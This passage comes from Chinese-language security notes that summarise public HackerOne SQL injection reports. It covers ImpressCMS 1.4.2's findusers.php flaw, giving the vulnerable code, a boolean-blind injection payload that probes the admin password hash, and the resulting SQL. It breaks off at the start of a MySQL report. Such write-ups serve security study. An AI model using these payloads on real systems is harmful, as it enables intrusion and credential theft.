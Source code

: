      - 闭合原查询参数 `MAT*`，注入 `UNION SELECT` 联合查询。
     - 提取 SQL 登录账户信息（用户名为 `sa` 等高权限账户风险极高）。

### 7. ImpressCMS 1.4.2 | CVE | POST | 布尔盲注

[ImpressCMS | Report #1081145 - SQL Injection through /include/findusers.php | HackerOne](https://hackerone.com/reports/1081145)

1. **漏洞定位**

   - **问题代码**：

     ```
     // /include/findusers.php (行 281 和 294)
     $total = $user_handler->getUserCountByGroupLink(@$_POST["groups"], $criteria);
     $foundusers = $user_handler->getUsersByGroupLink(@$_POST["groups"], $criteria, TRUE);
     
     // icms_member_Handler 类方法 (行 469-471)
     if (!empty($groups)) {
         $sql[] = "m.groupid IN (" . implode(", ", $groups) . ")";
     }
     ```

   - **关键缺陷**：

     - `$_POST["groups"]` 直接拼接至 SQL 查询，未进行整数类型验证或参数化处理。

2. **攻击原理**

   - **Payload 构造示例**：

     ```
     POST /include/findusers.php HTTP/1.1
     ...
     groups[]=1) OR (SELECT SUBSTR(password,1,1) FROM users WHERE uid=1)='a' --
     ```

   - **解析后的 SQL**：

     ```
     SELECT DISTINCT u.* FROM icms_users AS u 
     LEFT JOIN icms_groups_users_link AS m ON m.uid = u.uid 
     WHERE 1 = '1' AND m.groupid IN (1) OR (SELECT SUBSTR(password,1,1) FROM users WHERE uid=1)='a' -- )
     ```

   - **攻击效果**：

     - 若管理员密码哈希首字符为 `a`，查询返回用户列表；否则返回空。通过布尔响应差异推断数据。

3. **未授权利用条件**

   - **依赖漏洞**：#1081137（如 CSRF 令牌绕过或会话固定），允许攻击者未认证调用 `findusers.php`。

### 8. Mysql | post | 布尔/时间盲注

[U.S. Dept Of Defense | Report #1627995 - SQL injection at [https://█████████\] [HtUS] | HackerOne](https://hackerone.com/reports/1627995)

1. **漏洞定位**
